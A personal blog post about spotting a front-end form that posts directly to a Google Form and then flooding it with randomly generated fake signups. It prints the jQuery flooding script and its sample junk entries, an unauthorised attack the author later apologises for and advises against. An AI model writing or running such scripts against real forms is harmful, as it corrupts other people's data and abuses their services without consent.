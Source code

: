 ```yaml
---
title: Sorry, I hacked you.
date:   2016-07-19 12:41am
categories: [javascript]
tags: [javascript]
---
```


My biggest concern in developing a website, especially in the current role I have, is to worry about how well a site will perform and how secure it will be. Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his. I like his work so I was intrigued into how he wrote his backend for the form since he is a front-end developer. His credentials of his backend was in his JS.

```javascript
function postContactToGoogle(f) {

  var email = f.find('.form-email').val();
  var name = f.find('.form-name').val();

  $.ajax({
    url: "https://docs.google.com/forms/d/jeberish-google-id/formResponse",
    data: {
      "entry_1111111111": email,
      "entry_1111111117": name
    },
    type: "POST",
    dataType: "xml",
    statusCode: {
      0: function() {
        window.location.replace("/path/thanks");

      },
      200: function() {
        window.location.replace("/path/thanks");
      }
    }
  });
}
```

So I looked at this telling myself it was wrong, or at least there had to be a better way of doing something like that.  

I blew up the database(or in this case to a google excel doc) as a challenge to myself to see if I was really right.

```javascript
function rText(){
    var text = "";
    var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < 5; i++ ) {
      text += possible.charAt(Math.floor(Math.random() * possible.length));
    }
    return text;
}

function generateEmail(){
  var username, email,full_email;
  username = 'HueBin_';
  email = 'Hacked';
  full_email = username + rText() + '@'+ rText() + email+'.com';
  return full_email;
}

function postContactToGoogle() {

  $.ajax({
    url: "https://docs.google.com/forms/d/jeberish-google-id/formResponse",
    data: {
      "entry_1111111111": generateEmail(),
      "entry_1111111117": "HueBin_",
    },
    type: "POST",
    dataType: "xml",
    crossDomain : true,
    statusCode: {
      0: function(data) {
        console.log("BAD!",data);

      },
      200: function(data) {
        console.log("GOOD",data);
      }
    }
  });
}


$(function(){
  var num = 1;
    for (var i = 0; i < num; i++) {
      setTimeout(postContactToGoogle(), 50000); // yes thats 50,000!
    }
});
```

this posted info into the database that looked simular to this:

`name: HueBun_,Email:HueBin_piMt6@vwq4WHacked.com`
`name: HueBun_,Email:HueBin_f7Txq@pzLm6Hacked.com`
`name: HueBun_,Email:HueBin_YBTNf@TluieHacked.com`
`name: HueBun_,Email:HueBin_QYqVm@jYWuUHacked.com`

I wrote an email stating that I was  really really sorry about it.  More so, I meant to contact him sooner, but I just entered another year in my life and I took the weekend off from electronics (mainly because of beer)

conclusion: don't smoke crack! No, when putting anything out in to the publics eyes, do not put the keys to the castle out there for everyone to see.  Also, don't go my route. Instead inform of the person of potential bugs rather than acting on exploiting them.
